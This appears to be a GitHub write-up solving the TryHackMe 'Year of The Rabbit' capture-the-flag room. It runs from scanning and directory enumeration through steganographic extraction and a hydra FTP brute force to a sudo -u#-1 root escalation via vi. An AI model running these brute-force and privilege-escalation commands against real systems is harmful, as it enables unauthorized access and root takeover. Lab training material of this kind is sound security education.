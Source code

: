 # Year of The Rabbit
    ~ https://tryhackme.com/room/yearoftherabbit

* ### This is a direct walk-through to the flag. Hopping that you have given your best before referring to this write-up
* ### Assuming that your are using Attack-box or conntected to VPN. If not, do refer to [vpn_connection](https://github.com/shybu9/TRY-HACK-ME/tree/main/OPEN-VPN-CONNECTION "OPEN VPN CONNECTION")
*  ### Do follow this page through out the line to void confusion.

<br>

 ![rabbit intro](https://user-images.githubusercontent.com/112984045/200450627-fcc3ffa8-4e3c-4bde-9530-2cdb6acfbf7b.png)
~ the IP will be given once you join the room and Start Machine succefully after connecting to OPEN-VPN
 
 ## ENUMERATION :

 * For ENUMERATION we use nmap tool which come by default in kali linux.
 <br>command : 
 ```bash
 nmap -sVC -T4 -v <IP> 
 ```
 ![rabbit nmap](https://user-images.githubusercontent.com/112984045/200450896-f5d9f661-a182-4d23-a6bd-ac86ea7ebce7.png)
 <br>~ we can add -v argument for more verbose output.
 
 * I usually perform one more scan by using my personal tool : [port-scanner](https://github.com/shybu9/port-Scanner)
![rabbit portscanner](https://user-images.githubusercontent.com/112984045/200451032-97c2aa8e-2ace-4a73-8c87-d8280bfd5bee.png)<br>
 ~ I prefer this tool because of its speed as you can see it just took 858 seconds for scanning 65535 ports.Even still some improvements to be done
 
 ### ANALYSING BOTH SCANS :
 * number of OPEN PORTS : 3
 * PORT NUMBERS : 21,22,80
 * OPERATING SYSTEM : Uinux, Linux
 * service running on PORT 21 : ftp
 * service running on PORT 22 : ssh
 * service running on PORT 80 : http
 
 * As the port 80 is open lets have a look on web pages using IP
 ```bash
 http://<IP>
 ```
 
 <br>
 
 ```bash
 gobuster dir -u http://10.10.118.215/ --no-error -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -o commongobu.txt
 ```
 ![rabbit gobuster](https://user-images.githubusercontent.com/112984045/200460412-5d6f4312-86ab-4372-805f-7875f79515a0.png)
 <br>
 
 ```bash
 http://<IP>/assets/
 ```
 ![rabbit assets](https://user-images.githubusercontent.com/112984045/200452670-15edf2c8-84b6-4285-8e6b-897f3983ab95.png)
 <br>
 
```bash
http://<IP>/assets/style.css
```
![rabbit assets css](https://user-images.githubusercontent.com/112984045/200698012-0eaba1c0-3685-4bab-80dc-45f8d3b7c629.png)
<br>

```bash
http://<IP>/< directory name in style.css >
```
` use the burp.. to check the response.`
![rabbit burp](https://user-images.githubusercontent.com/112984045/200702406-47239f73-313c-4ad4-8b47-85ee21b0b63d.png)
<br>

```bash
http://<ip>/< hidden directory name found in burp response >
```
![rabbit wexy](https://user-images.githubusercontent.com/112984045/200703653-2c5b4901-690a-4074-8aaa-bf80b340d397.png)
<br>

` copy the hot_bae image link and use the command :`
```bash
wget < link of image >
```
![rabbit wget](https://user-images.githubusercontent.com/112984045/200704376-4cd96a1f-c1cc-4678-ab41-28fe2391697d.png)
<br>

```bash
binwalk Hot_Babe.png 
```
```bash
sudo binwalk -e Hot_Babe.png --run-as=root
```
![rabbit binwalk](https://user-images.githubusercontent.com/112984045/200704812-9f351144-17c9-4001-acee-49013321a323.png)
<br>

```bash
cd _Hot_Babe.png.extracted
```
<br>

` use external web to extract the files in 36.zlib`[web](https://filext.com/file-extension/ZLIB)
![rabbit zlib extract](https://user-images.githubusercontent.com/112984045/200705317-7736006e-7870-40b1-b56b-9e52983bdabf.png)
<br>

```bash
hydra -l < username extracted > -P < list of passwords extracted > ftp://<IP>
```
` don't forget remove spaces from the password list`
![rabbit hydra ftp](https://user-images.githubusercontent.com/112984045/200705605-f4b8f8c1-ae57-4ce1-89cf-87aa30af85b5.png)
<br>

```bash
ftp <IP>
```
![rabbit ftplogin](https://user-images.githubusercontent.com/112984045/200706000-512cd4b9-0773-46c3-b4bc-93dd6b340b72.png)
<br>

```bash
get Eli's_Creds.txt
```
<br>

` terminate the ftp connection using ctrl+d `

` the code in Eli's_Creds.txt was a brainfuck programming language which is really good at its name `
* use [web](https://www.tutorialspoint.com/execute_brainfk_online.php) to execute the program.

![rabbit brainfuck](https://user-images.githubusercontent.com/112984045/200707694-ce3ff23b-2b5a-42f1-9292-81eea695481c.png)
<br>

```bash
ssh <username from brainfuck execution>@<IP>
```
![rabbit ssh login](https://user-images.githubusercontent.com/112984045/200711363-8062ba83-b659-4c0c-92b5-3f1302550815.png)
<br>

` look at the msg given to gwendoline from root. His is talking about a file 's3cr3t'.` <br>
` move to home directory and search for s3cr3t`
```bash
locate s3cr3t
```
![rabbit ssh secret](https://user-images.githubusercontent.com/112984045/200848335-8d3529c5-945b-4c0a-80b1-54a491112433.png)
<br>

```bash
su gwendoline
```
`look for user.txt and submit the flag`
![rabbit usrflag](https://user-images.githubusercontent.com/112984045/200849217-99aec744-f0a5-4196-b468-af46f3fe5bb8.png)
<br>

## PRIVILEGE ESCALATION

```bash
sudo -l
```
* the user gwendoline has rights to execute vi command but not as root.
```bash
sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
```
* use the command `:!/bin/bash` in the editor.
![rabbit root](https://user-images.githubusercontent.com/112984045/200851195-4b9b99f2-97a8-4558-ac5d-c84d3ad346de.png)

### ` do submit the flag to complete the task`

<br>

### FOR ANY DOUBTS OR SUGGESTIONS DO WRITE TO shy.bu9@gmail.com
